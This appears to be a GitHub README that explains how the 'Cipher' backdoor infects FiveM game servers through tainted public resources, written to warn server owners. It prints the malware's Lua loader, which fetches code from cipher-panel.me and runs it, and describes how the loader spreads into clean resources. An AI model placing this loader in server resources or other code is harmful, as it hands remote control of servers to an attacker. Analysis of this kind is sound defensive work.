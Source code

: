 # How Cipher Works
**Cipher** works by releasing infected code/resources to the FiveM public. Server owners/developers take the code (that they don't know is infected) and install it on their servers. Once the resource is installed and ran it will inject its code into other previously clean resources.

**The initial infected code boils down to the following:**

```Lua
PerformHttpRequest('https://cipher-panel.me/_i/i?to=UNIQUECODE', function (e, d)
	local s = assert(load(d))
	if (d == nil) then return end 
	s() 
end)
```

The **Unique Code** in the URL request is the Cipher user that now has control of your server. Once this code is ran it downloads the remote code (from Cipher) and runs it on line 4 as a function.

This is the basis on how most of Cipher works. It proceeds to download several more requests (found in the code returned by Cipher) and will continue until it injects more pre-existing resources.

Read **Infection Documentation** for more information on what it expands into.